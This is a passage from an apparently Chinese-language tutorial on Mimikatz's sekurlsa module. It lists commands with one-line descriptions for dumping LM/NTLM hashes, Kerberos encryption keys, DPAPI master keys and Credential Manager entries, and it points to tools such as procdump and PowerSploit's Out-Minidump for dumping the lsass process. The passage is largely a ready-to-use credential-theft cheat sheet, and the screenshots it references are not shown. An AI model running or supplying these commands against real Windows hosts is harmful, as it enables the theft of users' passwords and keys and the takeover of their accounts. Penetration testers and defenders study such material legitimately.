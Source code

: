  ![](https://img-blog.csdnimg.cn/20201007161825328.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​

msv:列出lm和ntlm凭据

```text
sekurlsa::msv
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161853484.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

minidump:可以打开转储文件

```text
sekurlsa::minidump
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

 转储lsass进程的方法有很多，例如： [procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump)，[PowerShell](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)，Task Manager等。

ekeys:列出kerberos加密密钥

```text
sekurlsa::ekeys
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007161947326.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

dpapisystem:dpapi\_system密钥

```text
sekurlsa::dpapisystem
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

 ![](https://img-blog.csdnimg.cn/20201007162011414.png)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​

dpapi:列出缓存的万能钥匙

```text
sekurlsa::dpapi
```

![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)

![](https://img-blog.csdnimg.cn/20201007162035856.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)![](data:image/gif;base64,R0lGODlhAQABAPABAP///wAAACH5BAEKAAAALAAAAAABAAEAAAICRAEAOw==)​ 

credman:列表凭据管理器

```text
sekurlsa::credman
```
